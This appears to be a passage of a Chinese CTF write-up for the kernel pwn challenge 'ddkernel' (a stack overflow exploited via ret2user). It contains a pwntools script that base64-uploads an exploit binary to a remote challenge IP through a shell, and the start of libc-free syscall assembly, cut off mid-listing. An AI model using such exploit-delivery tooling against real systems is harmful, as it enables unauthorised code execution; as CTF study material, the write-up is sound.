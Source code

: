 ### ddkernel

> x86_64:linux

啥保护也没开的内核栈溢出，ret2user即可。主要说一下上传的问题，自己练习的过程中，编译完exp可以重打包到文件系统中，但是题目里需要上传，于是有两个问题：

1. 怎么上传？
2. 上传太慢怎么办？

#### 上传脚本

在：[Linux Kernel Pwn 初探](https://xz.aliyun.com/t/7625)抄到上传方法，本质是base64编解码+echo追加写，上传过程会显示百分比，界面很友好：

```python
from pwn import *
#context(log_level='debug')
#io = process("./boot.sh")
io = remote("183.129.189.60",10015)

def exec_cmd(cmd):
    io.sendline(cmd)
    io.recvuntil("$ ")

def upload():
    p = log.progress("Upload")
    with open("./exp", "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data)
    io.recvuntil("$ ")

    for i in range(0, len(encoded), 600):
        p.status("%d / %d" % (i, len(encoded)))
        exec_cmd("echo \"%s\" >> /tmp/benc" % (encoded[i:i+600]))

    exec_cmd("cat /tmp/benc | base64 -d > /tmp/bout")
    exec_cmd("chmod +x /tmp/bout")

upload()
io.interactive()
```

#### 上传速度

正常用glibc编译完的exp一般在1M上下，对于题目网络环境不好的情况可能要上传非常久，如果中间超时断了，就要重头再来。比赛时我抱着电脑去做饭，还没洗完碗就断了...这里其实有两种解决办法：

1. 换用体积小的libc如musl，甚至不用libc，直接用纯系统调用
2. 买一个与题目在同一机房的服务器进行上传

因为之前跟煜博学了risc-v那个shellcode，所以知道如何不用libc写shellcode，要求是避免用格串什么的，完全用系统调用替代libc的库函数，代码如下，编译完只有6k，如果手动调整以下应该可以小到几百字节：

> 以下代码有bug，不知道为啥用系统调用写execve就不成功，orw flag没问题

```c
asm(
    "execve:\n"
	"mov $59,%rax\n"
	"syscall\n"
	"ret\n"

	"open:\n"
	"mov $2,%rax\n"
	"syscall\n"
	"ret\n"

	"read:\n"
	"mov $0,%rax\n"
	"syscall\n"
```